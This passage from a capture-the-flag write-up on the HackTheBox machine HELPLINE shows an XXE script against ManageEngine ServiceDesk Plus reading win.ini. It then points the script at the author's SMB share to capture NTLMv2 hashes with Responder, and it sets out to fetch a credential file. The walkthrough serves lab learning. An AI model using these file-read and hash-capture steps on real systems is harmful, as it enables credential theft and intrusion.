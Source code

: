 

I can use it to grab `win.ini` for a test:



    PS C:\Users\0xdf\hackthebox\helpline-10.10.10.132 > python .\mesep_xxe.py 10.10.10.132 "C:\windows\win.ini"
    ; for 16-bit app support
    [fonts]
    [extensions]
    [mci extensions]
    [files]
    [Mail]
    MAPI=1



#### Responder

I did try to run `responder` and give it an path to a share on my host.
I think you can run `responder` from Windows, but I failed to pull it
off. When I posted my [lessons learned on
Commando](/commando-vm-lessons.md#responder), \@mcohmi
suggested `Inveigh`:

> You should try Inveigh instead of that Windows responder.
>
> --- Ohm-I 🚉 PAX West (@mcohmi) [April 16,
> 2019](https://twitter.com/mcohmi/status/1118003243882139648?ref_src=twsrc%5Etfw)

I still need to test that, but since it ended up not being important
here, I'll just show the Kali `responder` results. The hashes I got were
not helpful:



    root@kali# python3 mesep_xxe.py 10.10.10.132 //10.10.14.14/share/test.txt
    Error: No data returned





    [SMBv2] NTLMv2-SSP Client   : 10.10.10.132
    [SMBv2] NTLMv2-SSP Username : \iX
    [SMBv2] NTLMv2-SSP Hash     : iX:::918a26cfdd690e81::
    [SMBv2] NTLMv2-SSP Client   : 10.10.10.132
    [SMBv2] NTLMv2-SSP Username : \iX
    [SMBv2] NTLMv2-SSP Hash     : iX:::07d76d4d1f724c69::



These hashes are indicative of a SYSTEM account. That's interesting, as
it means that ME SDP is likely running as SYSTEM, but that I don't get
any hashes from it to crack.

#### it_logins.txt

In the password audit xlsx document, there was a reference to additional
information located at `C:\Temp\Password Audit\it_logins.txt` on
HELPLINE. I'll grab that file with the script:
